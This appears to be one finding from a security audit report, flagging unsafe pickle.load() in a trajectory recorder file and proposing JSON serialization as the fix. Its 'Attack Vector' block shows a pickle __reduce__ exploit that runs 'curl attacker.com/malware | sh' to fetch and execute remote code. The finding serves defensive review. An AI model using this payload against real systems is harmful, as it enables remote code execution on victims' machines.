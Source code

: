 **Priority**: 🚨 **IMMEDIATE** - Deploy within 24 hours

---

### 🔴 CRIT-2: Unsafe Deserialization via `pickle.load()`
**File**: [apps/darkTrace/darkTrace/observers/trajectory_recorder.py:14](apps/darkTrace/darkTrace/observers/trajectory_recorder.py#L14)

```python
import pickle  # ⚠️ DANGEROUS for untrusted data
```

**Risk**: `pickle.load()` can execute arbitrary code during deserialization

**Attack Vector**:
```python
# Attacker creates malicious pickle file
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('curl attacker.com/malware | sh',))

with open('malicious.pkl', 'wb') as f:
    pickle.dump(Exploit(), f)

# When victim loads: pickle.load(f)
# Result: Remote code execution
```

**Impact**: Full system compromise if pickle files are from untrusted sources

**Fix**:
```python
# SAFE ALTERNATIVE: Use JSON for serialization
import json
from dataclasses import asdict

# Saving
def save_trajectory(trajectory: Trajectory, path: Path):
    data = {
        'trajectory_id': trajectory.trajectory_id,
        'model_name': trajectory.model_name,
        # ... serialize all fields
        'snapshots': [asdict(s) for s in trajectory.snapshots]
    }
    with open(path, 'w') as f:
        json.dump(data, f)

# Loading (safe)
def load_trajectory(path: Path) -> Trajectory:
    with open(path, 'r') as f:
        data = json.load(f)
    return Trajectory(**data)
```
